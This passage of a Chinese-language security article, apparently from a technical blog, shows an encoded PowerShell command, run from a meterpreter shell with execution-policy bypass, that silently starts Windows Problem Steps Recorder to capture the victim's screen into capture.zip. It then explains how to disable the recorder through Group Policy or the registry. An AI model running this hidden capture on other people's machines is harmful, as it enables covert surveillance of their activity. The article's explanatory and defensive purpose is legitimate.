 ![Alt text](http://drops.javaweb.org/uploads/images/018fbcfa73334af91e809fff581a3326ed9c8942.jpg)

如图，从输出得到加密的Powershell命令为：

```
cABzAHIALgBlAHgAZQAgAC8AcwB0AGEAcgB0ACAALwBnAHUAaQAgADAAIAAvAG8AdQB0AHAAdQB0ACAAQwA6AFwAdABlAHMAdABcAGMAYQBwAHQAdQByAGUALgB6AGkAcAA7ACAAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBzACAAMQAwADsAIABwAHMAcgAuAGUAeABlACAALwBzAHQAbwBwADsA

```

然后就可以在meterpreter的shell下直接执行Powershell命令：

```
powershell -ep bypass -enc cABzAHIALgBlAHgAZQAgAC8AcwB0AGEAcgB0ACAALwBnAHUAaQAgADAAIAAvAG8AdQB0AHAAdQB0ACAAQwA6AFwAdABlAHMAdABcAGMAYQBwAHQAdQByAGUALgB6AGkAcAA7ACAAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBzACAAMQAwADsAIABwAHMAcgAuAGUAeABlACAALwBzAHQAbwBwADsA

```

![Alt text](http://drops.javaweb.org/uploads/images/666887c8d907395736f274b2b90dacf0608d527e.jpg)

代码执行后，等待10s产成报告文件capture.zip，测试成功

0x05 防御
=======

* * *

可采用以下两种方法关闭psr：

### 1、使用组策略

**中文系统：**

gpedit.msc-管理模板-Windows组件-应用程序兼容性

启用关闭问题步骤记录器

如图![Alt text](http://drops.javaweb.org/uploads/images/0b55365ddfaf67bf4f45e11fe2af5755e52df435.jpg)

**英文系统：**

gpedit.msc-Computer Configuration-Administrative Templates-Windows Components-Application Compatibility

启用Turn off Problem Steps Recorder

如图![Alt text](http://drops.javaweb.org/uploads/images/e7bfabd84462e911ce7eb894518205919116ef38.jpg)

### 2、修改注册表

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\AppCompat]

```

新建`"DisableUAR"=dword:00000001`

如图![Alt text](http://drops.javaweb.org/uploads/images/5b1e9ddcdf797ede7bbb42e158d3b61820508d92.jpg)
